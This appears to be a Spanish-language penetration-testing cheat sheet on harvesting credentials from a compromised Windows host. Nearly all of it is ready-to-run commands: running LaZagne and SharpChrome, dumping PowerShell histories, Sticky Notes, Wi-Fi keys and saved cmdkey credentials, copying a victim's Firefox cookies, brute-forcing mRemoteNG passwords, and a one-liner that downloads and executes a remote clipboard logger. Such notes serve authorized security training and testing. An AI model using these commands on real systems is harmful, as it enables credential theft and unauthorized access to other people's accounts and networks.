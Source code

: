 Como primer herramienta podemos buscar (si estamos por rdp) podemos usar el buscador de windows con las siguientes palabras, talvez aparezcan ficheros con contraseñas guardadas:

- Passwords	
- Passphrases	
- Keys
- Username	
- User account	
- Creds
- Users	
- Passkeys	
- Passphrases
- configuration	
- dbcredential	
- dbpassword
- pwd	
- Login	
- Credentials

Lo siguiente que podemos hacer es unsar lazagne 

https://github.com/AlessandroZ/LaZagne/releases/

Una vez que lo metimos en la pc victima lo corremos con:

    start lazagne.exe all

### Buscar bases de datos de keepass

    Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

### Buscar informacipon sensible de servidores XAMPP

    Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

### Buscar información sensible en un path

    Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

#### Powershell History

    (Get-PSReadLineOption).HistorySavePath

#### Podemos también en un oneliner recorrer todos los archivos historicos de powershell a los que tenemos acceso

    foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

#### también podemos usar el findr por cmd:

    findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml *.settings

#### El archivo unnatend.xml puede tener contraseñas también

#### Buscar archivos en base a una palabra:

    findstr /spin "password" *.* 

#### Buscar con powershell
    select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

#### BUscar una palabra en base a una extensión:
    dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

#### Extraer contraseñas de sticky notes
Las sticky notes (aunque no lo demuesten) son una base de datos.

Esta base de datos se encuentra en:

C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

Podemos acceder a ella y luego robarla para cargarla en nuestra pc atacante o dumpearla con powershell mediante PSSQLite.
##### Powershell local
- Import-Module .\PSSQLite.psd1
- $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
- Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap

##### Linux:
- Robamos el archivo
- Corremos con strings

#### Cmdkey saved credentials
Podemos listar las keys guardadas en el cmd. En un entorno de AD podríamos llegar a encontrar contraseñas guardadas que nos permitan acceder a otros recursos con su ruta incluída.

        cmdkey /list

También podemos correr cosas como el usuario si tiene las creds guardadas en el cmd

        runas /savecred /user:inlanefreight\bob "COMMAND HERE"

#### Extraer credenciales de los browsers:
Podemos usar herramientas como sharpchrome para lograrlo

        .\SharpChrome.exe logins /unprotect

#### También traer contraseñas de chrome:

    gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

#### Extraer contraseñas de firefox
Firefox guarda sus contraseñas en una sqlite

##### Robamos la sqlite de la victima
    copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
##### En la pc atacante:
    python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d

    
#### Extraer credenciales de Putty, Winscp, Filezilla, SuperPutty y RDP
para esto podemos usar SessionGopher

        Import-Module .\SessionGopher.ps1
        
        Invoke-SessionGopher -Target <Domain>

#### Clear-text passwords en el registro
        HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon

#### Contraseñas de wifi

##### 1) listamos las redes
        netsh wlan show profile
##### 2) Dumpeamos los datos
        netsh wlan show profile <red> key=clear

### mRemteNG
- mRemoteNG es un software que permite conectarse con sistemas remotos mediante VNC,RDP, SSH y otros.
- Guarda las credenciales en el archivo confCons.xml
- su contraseña por defecto es mR3m
- La ubicación de confCons.xml es <user>\appdata\roaming\mremoteng
  #### Desencriptar un password de mremoteng con la contraseña por default
      python3 mremoteng_decrypt.py -s "<password>"
  #### Desencriptar un mremoteng con custom password
      for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "<pass>" -p $password 2>/dev/null;done

### Obtener el clipboard
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
    Invoke-ClipboardLogger

---

### Obtener credenciales de AWS

Cuando realizamos una autenticación en AWS utilizando el cli o el sdk se enera un conjunto de credenciales que incluyen un Access Key Id y un Secret Access Key. Suele uardarse en:

    C:\Users\NombreDeUsuario\.aws\credentials

